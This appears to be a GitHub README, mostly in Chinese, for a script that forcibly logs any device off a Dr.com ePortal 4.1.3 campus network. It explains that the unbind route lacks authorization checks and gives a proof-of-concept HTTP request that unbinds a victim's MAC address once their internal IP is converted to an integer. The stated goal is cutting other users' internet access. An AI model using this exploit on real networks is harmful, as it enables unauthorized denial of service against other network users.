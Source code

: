 # DrcomCutdown
Dr.com Eportal校园网认证--踹人下线脚本

😎测试版本:
  **Guangzhou Hotspot Software Technology Co., Ltd. © 2020   EPortal4.1.3**

🥳效果:
  用此脚本可以将校园网内任意已登陆设备强制踹下线，实现断网效果（前提是得知道目标内网ip地址）

# 原理 -Principle
由于未对unbind路由做验证，导致任意知道受害者内网ip地址的人员，在使用一个简易将ip地址转换为int整型数字的算法后，可以实现无授权解绑目标mac地址，实现断网效果。

***POC:***
```
GET /eportal/portal/mac/unbind?wlan_user_mac=000000000000&wlan_user_ip={ipToParseIntValue}&lang=en HTTP/1.1
Host: xx.xx.xx.xx:xxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://192.168.10.154/
```
